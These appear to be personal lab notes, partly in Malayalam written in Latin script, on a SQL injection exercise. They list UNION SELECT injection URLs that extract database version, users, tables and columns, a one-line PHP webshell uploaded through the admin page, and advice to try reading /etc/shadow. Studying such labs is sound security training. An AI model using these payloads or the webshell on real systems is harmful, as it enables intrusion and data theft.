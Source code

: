 ## Retrieving information
-->You can for example access the following URL's to retrieve this information :
```sql
->  the database version: [http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4)
->  the current user: [http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current_user\(\),3,4)
->  the current database: [http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database(),3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database\(\),3,4)
```
-->In order to retrieve information related to the current application, we are going to need :
-   the name of all tables in the current database
-   the name of the column for the table we want to retrieve information from
-->The following queries can be used to retrieve :
-   the list of all tables: `SELECT table_name FROM information_schema.tables`
-   the list of all columns: `SELECT column_name FROM information_schema.columns`
-->By mixing these queries and the previous URL, you can guess what page to access to retrieve information :
-   the list of tables: `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`
-   the list of columns: `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

-->The problem, is that these requests provide you a raw list of all tables and columns, but to query the database and retrieve interesting information, you will need to know what column belongs to what table. Hopefully, the table information_schema.columns stores table names :
```sql
SELECT table_name,column_name FROM information_schema.columns
```

-->so namuk slq i vazhi admin page ilek keran patiyal namal admin account vazhi entheniglum img or file upload chyanam. like php file and it contains :
```php
	<?php
	  system($_GET['cmd']);
	?>
```
-->so ini ee file upload chyuna path il poi ?cmd=uname enn koduthal namuk webshell kitum ok
-->The webshell has the same privileges as the web server running the PHP script, you won't for example be able to retrieve the content of the file `/etc/shadow` since the web server doesn't have access to this file (however you should still try in case an administrator made a mistake and changed the permissions on this file).

# Video explanation
-->so namal lab edukunu.enit athil all pictures edukumbol url il ?ide=1  enn kanunu.so avide ?id=1' enn kodukumbol sql query break aayi
-->so ini namal athil `?id=3 union select 1,2,3,4`  enn kodukumbol error varunila.so athinartham 4 columns aan namude first query il ullath
-->matoru reethiyil column number kandethal `order by`  use chyam ie, `?id=3 order by 5`  enn idumbol `unknown column '5'`  enn kanikunu.so `?id=3 order by 4`  enn kodukumbol page normal aayi thane kanikum. ini `?id=3 order by 3`  enn koduthalum norma aayi kanikum.limit il kooduthal column aayal aan error varuka ok
-->ivide 1,2,3,4  il 2 inte avide kore number idumbol ath page il reflect chyunund ie, `1,234234234,3,4`
-->ivide 2 enna column inte avide ullath reflect chyunond namuk athil ini oron test chyam ie, database version nokam
->`http://ptl-52ce9865-e6c1c015.libcurl.so/cat.php?id=3%20union%20select%201,@@version,333333,4
-->ini namuk ella tabel_name um nokam.athin information_schema.tables il ninum nokam
->`id=3 union select 1,table_name,3,4 from information_schema.tables`
-->ipol ella tables um kitum.ella tables um kiti enn vech athile contents dumb chyan patils.dumb chyanengil athil ulla columns inte peru ariyanam.so athin namal `column_name` from `information_schema.columns`  use chyanam ie,
->`?id=3%20union%20select%201,column_name,3,4%20from%20information_schema.columns`